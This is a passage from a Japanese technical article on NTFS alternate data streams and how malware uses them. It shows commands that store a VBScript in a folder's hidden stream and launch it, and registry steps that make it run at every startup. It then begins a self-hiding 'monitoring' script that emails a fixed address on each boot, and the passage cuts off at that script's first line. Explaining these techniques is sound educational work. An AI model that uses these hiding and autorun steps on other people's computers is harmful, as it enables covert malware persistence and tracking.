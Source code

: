 
### 0x03 マルウェアでの応用

　見えない場所というと、当然のことながら悪さする輩の隠れ場所にもなってし
まうものだ。Windows2000が発売されると早速この代替データストリームを利用す
るウイルスが登場した。
　世界初のストリームウイルスWin2k.Streamは、実行ファイルなどを代替データ
ストリームにコピーしておき、ウイルス本体をメインストリームにコピーすると
いうものだった。ウイルスが動作した後、代替ストリームに格納された本来のフ
ァイルが実行されるため、ユーザは感染に気づきにくい。PEファイル本体に感染
するのと異なり、実にお手軽に作れるウイルスだが、駆除は少々厄介だ。
　またウイルス本体が代替データストリームに潜伏するというケースもある。見
たことのないEXEやVBSファイルが増えていたらあからさまに怪しいが、フォルダ
に付随する代替ストリームであれば、一見してファイルが増えたとはわからない。

　ところでストリームに格納されたEXEファイルやスクリプトファイルを実行する
にはどうしたらよいのだろうか？　これはstartコマンドで簡単に実現できる。

\-\-\-\-
c:\test>mkdir test2
c:\test>echo MsgBox"hello!" > c:\test\test2:s.vbs
c:\test>start f:\test\test2:s.vbs
\-\-\-\-

　1行目でディレクトリを作り、2行目でVBScriptのファイルを代替ストリームと
して作成している。三行目でエンターキーを押すと、画面に"hello!"と書いたメ
ッセージボックスが表示されたはずだ。

　代替ストリームのファイルを、マシンの起動時に自動的に実行させることもで
きる。多くのマルウェアは、以下のようなレジストリに自分のファイル名やパス
を書き込んで、マシンが起動するたびに自動実行されるようにしている。

\-\-\-\-
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\run\
\-\-\-\-

　ためしに代替ストリームとして格納したVBScriptを指定してみよう。レジスト
リエディタを開き（ [スタートメニュー]\->[ファイル名]を指定して実行] で、"
regedit"と入力）、上記のキーを探す。右側のウィンドウペインの中で右クリッ
クし、 [新規]\->[文字列値] を選ぶ。任意の名前をつけ、データの部分に先ほど
VBSを格納した場所"c:\test\test2:s.vbs"を入力すれば完了だ。いったんログオ
フした後ログオンすれば、"hello!"のメッセージが表示されるはずだ。テストし
た後は、レジストリを元に戻すのをお忘れなく。


### 0x04 監視ツールの作成

　最後に今まで紹介したテクニックとVBScriptを使ってごく簡単な不可視（？）
監視ツールを作ってみようと思う。
　以下のVBSファイルをテスト用フォルダ内で実行すると、フォルダに潜伏（自身
をフォルダの代替ストリームとしてコピー）し、自動実行されるようレジストリ
に書き込む。次回から、マシンが起動するたびに、指定したメールアドレスへメ
ールを送信するようになる。

\-\-\-\-
Set oFSO \= WScript.CreateObject("Scripting.FileSystemObject")
